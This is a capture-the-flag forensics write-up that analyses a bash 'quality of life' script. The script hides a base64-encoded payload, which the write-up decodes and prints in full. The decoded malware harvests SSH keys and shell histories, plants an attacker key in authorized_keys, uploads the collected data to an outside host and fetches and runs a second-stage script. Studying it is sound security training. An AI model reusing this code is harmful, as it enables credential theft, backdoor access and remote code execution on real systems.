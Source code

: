 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw this in to the browser tool CyberChef, it will automatically detect base64, and decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```
